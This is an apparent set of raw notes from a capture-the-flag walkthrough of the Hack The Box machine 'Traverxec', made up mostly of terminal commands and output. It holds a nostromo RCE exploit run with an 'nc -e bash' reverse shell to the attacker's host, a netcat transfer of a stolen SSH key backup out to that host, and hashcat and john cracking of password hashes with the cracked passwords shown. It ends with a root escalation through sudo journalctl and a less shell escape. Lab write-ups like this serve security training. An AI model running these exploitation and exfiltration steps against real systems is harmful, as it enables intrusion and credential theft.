


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ searchsploit nostromo 1.9.6

nostromo 1.9.6 - Remote Code Execution
                 | multiple/remote/47837.py\

 python 47837.py 10.10.10.165 80 "nc -e bash 10.10.14.8 1234"

 

 find / -iname index.html

 /var/nostromo/htdocs/index.html

 www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

hashcat --username -m 500 "david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/" rockyou.txt --show

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

ssh david@10.10.10.165

[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
Netid   State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port                                                                                   
udp     ESTAB   0        0           10.10.10.165:49307      10.211.55.1:53                                                                                     
tcp     ESTAB   0        4533        10.10.10.165:45014       10.10.14.8:1234    users:(("python",pid=778,fd=1),("python",pid=778,fd=0),("bash",pid=775,fd=1),("bash",pid=775,fd=0))
tcp     ESTAB   0        0           10.10.10.165:80          10.10.14.8:46410   users:(("ss",pid=13477,fd=5),("sed",pid=13475,fd=5),("bash",pid=13474,fd=5),("bash",pid=9586,fd=5),("bash",pid=779,fd=5),("python",pid=778,fd=5),("bash",pid=775,fd=5))

www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area

www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz

nc 10.10.14.8 1337 < backup-ssh-identity-files.tgz

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ tar xvfz backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ cat home/david/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0FvhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i home/david/.ssh/authorized_keys david@10.10.10.165
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'home/david/.ssh/authorized_keys' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "home/david/.ssh/authorized_keys": bad permissions
david@10.10.10.165's password: 

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ cp home/david/.ssh/authorized_keys david.pub
kali@kali:~/htb/boxes/traverxec/10.10.10.165$ chmod 600 david.pub

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
Enter passphrase for key 'home/david/.ssh/id_rsa': 
Nowonly4me

/usr/share/john/ssh2john.py id_rsa > id_rsa.hash

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ john id_rsa.hash  --show                                                                                                                                                                                                                                                      
id_rsa:hunter

kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i ./id_rsa david@10.10.10.165
Enter passphrase for key './id_rsa': 
hunter

Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~/bin$ ls -lah .
total 16K
drwx------ 2 david david 4.0K Oct 25  2019 .
drwx--x--x 5 david david 4.0K Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
david@traverxec:~/bin$ ./server-stats.sh ^C
david@traverxec:~/bin$ cat server-stats.head 
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

[+] PATH                                                                                                                                                                                                                                                                                                                     
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                                                                                                                                                                                         
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                                                                                                                                                                                                                                                     
New path exported: /home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin          

[+] Cron jobs                                                                  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
-rw-r--r-- 1 root root 1042 Jun 23  2019 /etc/cronta

./server-stats.sh
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat

https://gtfobins.github.io/gtfobins/journalctl/

stty rows 3

in less:
!bash

root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
